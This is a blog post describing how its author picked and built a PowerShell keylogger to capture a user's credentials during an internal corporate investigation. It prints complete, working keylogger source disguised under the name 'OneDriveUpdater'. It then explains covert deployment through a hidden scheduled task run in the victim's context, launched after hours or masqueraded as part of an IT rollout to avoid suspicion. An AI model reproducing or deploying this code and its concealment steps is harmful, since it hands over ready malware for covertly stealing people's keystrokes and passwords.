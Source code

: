 ```yaml
---
title: "Practical Application of Keylogger for Incident Response"
date: 2018-08-25
url: "/keylogger-practical-application-for-ir"
tags: ["powershell", "keylogger", "windows", "security", "incident-response", "system-administration", "scripting"]
summary: "A walkthrough of evaluating and implementing different PowerShell keylogger options for an cyber investigation, including testing simple keyloggers, PowerSploit, Nishang, and customizing a solution based on Shima's keylogger."
---
```


## Background

As part of a recent internal investigation, we identified a need for a keylogger to grab some creds off a corporate laptop. After getting the necessary approvals lined up and documented, I started looking into how we might potentially do this.

This isn't a standard pentest/offensivesec engagement where we needed to gain access first, since we already had local admin as part of standard sysadmin access. So we jumped straight into "exploit development". Did a quick Google of keyloggers and found the usual candidates. Powershell would work for us in this scenario since we controlled antivirus and script execution settings, so we proceeded down this path.

Googlefu yielded several candidates, and I'll talk through the rationale / evolution of what happened for us with the four Powershell keyloggers we used: simple keylogger, Powersploit, Nishang, and Shima's.

## Possible Solutions

### simple keylogger

[https://gist.github.com/dasgoll/7ca1c059dd3b3fbc7277](https://gist.github.com/dasgoll/7ca1c059dd3b3fbc7277)

I initially found this keylogger as the fourth hit on Google. After quickly reviewing the code and getting familiar, this seemed like it would work for us. I particularly liked the fact this had 1) documented coded (yay) and 2) had good hooks for debugging (console writes, opening file at the end). Gave a good structure to quickly iterate through.

I'll speak later about our deployment, but the main challenge with this script was the fidelity of results that it returned. In our test deployment, we observed that key presses were being dropped and it generally gave inconsistent results. It improved as the \[cci\_powershell\]Start-Sleep -Milliseconds 40\[/cci\] timer was reduced, but Powershell CPU usage went way up (at value=1, CPU util=25%). That'd be super noticeable (cue fan noise) and the accuracy of keystroke capture still wasn't high enough. So we dropped this and started looking for alternative measures.

### Powersploit's Get-Keystrokes.ps1

[https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-Keystrokes.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-Keystrokes.ps1)

So that took me to Powersploit's Get-Keystrokes. I've used other Powersploit modules, but never this one so figured I'd give it a shot and it'd be a slam dunk. Did some quick modifications to suit our environment. But when executed, output was just the header "TypedKey","WindowTitle","Time" but no keys captured. I'm no Powershell expert, so after ~10 minutes of fiddling, decided I'd see if there were other options and return to this if I couldn't find another alternative.

### Nishang's Keylogger.ps1

[https://github.com/samratashok/nishang/blob/master/Gather/Keylogger.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Keylogger.ps1)

Alright well if Powersploit isn't going to work, let's check out the nishang option. The persistence features and web based upload are pretty cool for pentest engagements, but not necessarily needed for this endeavor. Making the modifications to bring storage back internal seemed to be more intense, so after about 5 minutes on looking at this, went back to Google for something closer to end state (because I'm lazy).

### Shima's Keylogger

[https://vacmf.org/2013/01/23/powershell-keylogger/](https://vacmf.org/2013/01/23/powershell-keylogger/)

So then stumbled upon Shima's keylogger. This was succinct enough that it would do the trick! Testing this quickly showed promise, but the output file listed each character on its own line. Since English is left to right readstyle, and I really didn't want to write another script to post-process this file, I looked at options of fixing this. Output was based on:

<!-- spell-checker: disable -->
```powershell
Out-File -FilePath $logfile -Encoding Unicode -Append -InputObject $mychar.ToString()
```
<!-- spell-checker: enable -->

and there's a great argument `-NoNewline` that looked promising from [Powershell docs](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/out-file?view=powershell-6). Whipped that together and deployed on the test box, but quickly was back to the drawing board because this argument is a Powershell 5.0 feature, and the target was still on 2.0.

So to get around this, I figured let's just build a string buffer with the inputs and write whenever we get an enter. A bit hacky, but should work fine and writing the buffer upon carriage return to the output file will suit our needs. Not being a Powershell guru, took some time to finally identify how to flag a carriage return with the converted keystate, but after consulting an [Ascii table](https://ss64.com/ascii.html) and testing 10 (line feed) and 13 (carriage return), we had a winner. So final code looked like this:

<!-- spell-checker: disable -->
```powershell
function OneDriveUpdater {
    $logfile = "$env:temp\key.log"
    $MAPVK_VK_TO_VSC = 0x00
    $MAPVK_VSC_TO_VK = 0x01
    $MAPVK_VK_TO_CHAR = 0x02
    $MAPVK_VSC_TO_VK_EX = 0x03
    $MAPVK_VK_TO_VSC_EX = 0x04

    $virtualkc_sig = @'
    [DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)]
    public static extern short GetAsyncKeyState(int virtualKeyCode);
'@

    $kbstate_sig = @'
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int GetKeyboardState(byte[] keystate);
'@

    $mapchar_sig = @'
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int MapVirtualKey(uint uCode, int uMapType);
'@

    $tounicode_sig = @'
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int ToUnicode(uint wVirtKey, uint wScanCode, byte[] lpkeystate, System.Text.StringBuilder pwszBuff, int cchBuff, uint wFlags);
'@

    $getKState = Add-Type -MemberDefinition $virtualkc_sig -name "Win32GetState" -namespace Win32Functions -passThru
    $getKBState = Add-Type -MemberDefinition $kbstate_sig -name "Win32MyGetKeyboardState" -namespace Win32Functions -passThru
    $getKey = Add-Type -MemberDefinition $mapchar_sig -name "Win32MyMapVirtualKey" -namespace Win32Functions -passThru
    $getUnicode = Add-Type -MemberDefinition $tounicode_sig -name "Win32MyToUnicode" -namespace Win32Functions -passThru

    $bufferString = ""
    while ($true) {
        Start-Sleep -Milliseconds 40
        $validator = ""

        for ($char = 1; $char -le 254; $char++) {
            $vkey = $char
            $validator = $getKState::GetAsyncKeyState($vkey)

            if ($validator -eq -32767) {
                $l_shift = $getKState::GetAsyncKeyState(160)
                $r_shift = $getKState::GetAsyncKeyState(161)
                $caps_lock = [console]::CapsLock

                $scancode = $getKey::MapVirtualKey($vkey, $MAPVK_VSC_TO_VK_EX)

                $kbstate = New-Object Byte[] 256
                $checkkbstate = $getKBState::GetKeyboardState($kbstate)

                $mychar = New-Object -TypeName "System.Text.StringBuilder"
                $unicode_res = $getUnicode::ToUnicode($vkey, $scancode, $kbstate, $mychar, $mychar.Capacity, 0)

                if ($unicode_res -gt 0) {
                    if ($mychar.ToString() -eq "`r") {
                        #debugging write output in case of error
                        Out-File -FilePath $logfile -Encoding Unicode -Append -InputObject $bufferString.ToString()
                        $bufferString = ""
                    } else {
                        $bufferString = $bufferString + $mychar
                    }
                }
            }
        }
    }
}

OneDriveUpdater

```
<!-- spell-checker: enable -->

## Deployment

For the deployment mechanism, we decided upon a scheduled task because we could connect to the endpoint remotely and we had local admin. So just pop open Scheduled Tasks, connect to endpoint remotely:

![Windows Task Scheduler - Create Basic Task window showing task name and description fields](images/2018-09-23_16-59-58.jpg)

![Windows Task Scheduler - Create Basic Task window showing additional configuration options](images/2018-09-23_17-00-12.jpg)

Create a task, and this is important, make sure to run it as the user. The script has to be run in the user's context, otherwise you'll get nothing.

![Windows Task Scheduler - Create Basic Task window showing task name and description fields](images/2018-09-23_17-03-37.jpg)
Then another thing to note is the Action, we'll kick powershell.exe but adding the flag `-WindowStyle Hidden`, which will result in a quick flicker of a powershell window but will quickly disappear. So either kick it off when the user isn't around (after hours) or make it a plausible looking script. We hijacked a current IT rollout to masquerade the script so it didn't arouse too much suspicion.

![Windows Task Scheduler - New Action window showing PowerShell command configuration](images/2018-09-23_17-04-22.jpg)

The rest of the options are up to you: triggers, job ending/repeating, etc. We went with time kickoff in this particular example.

One final note is that we went with a network share location to store the files, a local filer that did the trick. Helps avoid the storage issue if the files get too large, and one less connection into the target's box.

### Conclusion

So that's about a wrap. Was a useful exercise for us, got me more familiar with keylogger options on the cheap, since we don't own a product that would do this for us.  And I wasn't really in the mood to download an _insert nation-state here_ backdoor'd keylogger. Anyway, hope this helped. Enjoy
